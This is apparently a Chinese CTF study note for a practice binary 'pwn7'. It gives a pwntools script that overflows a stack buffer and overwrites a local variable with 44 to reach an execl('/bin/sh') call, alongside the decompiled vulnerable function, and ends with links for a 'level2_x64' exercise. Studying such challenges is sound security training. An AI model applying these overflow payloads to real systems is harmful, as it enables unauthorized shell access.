 ### pwn7 长度溢出覆盖变量

```python
from pwn import *

file = './pwn7'
sh = process(file)
junk = 'a' * (0x4c - 0xc)
payload = flat(junk, 44)

sh.sendline(payload)
sh.interactive()
```

```c
void __cdecl __noreturn vuln(int a1, char *src)
{
  char dest; // [esp+Ch] [ebp-4Ch]
  int v3; // [esp+4Ch] [ebp-Ch]
  // dest:4c, v3 c, 距离 4c-c
  // 然后痛覆盖 v3值为0x2c即44即可

  v3 = a1;
  strcpy(&dest, src);
  printf("answer = %d\n", v3);
  if ( v3 == 0x2C )
    execl("/bin/sh", "sh", 0);
  else
    puts("Sorry, you lose.");
  exit(0);
}
```

## level2_x64

例题 level2_x64, [L1](https://www.cnblogs.com/gaonuoqi/p/11642998.html) [L2](https://blog.csdn.net/qq_44832048/article/details/97263868)
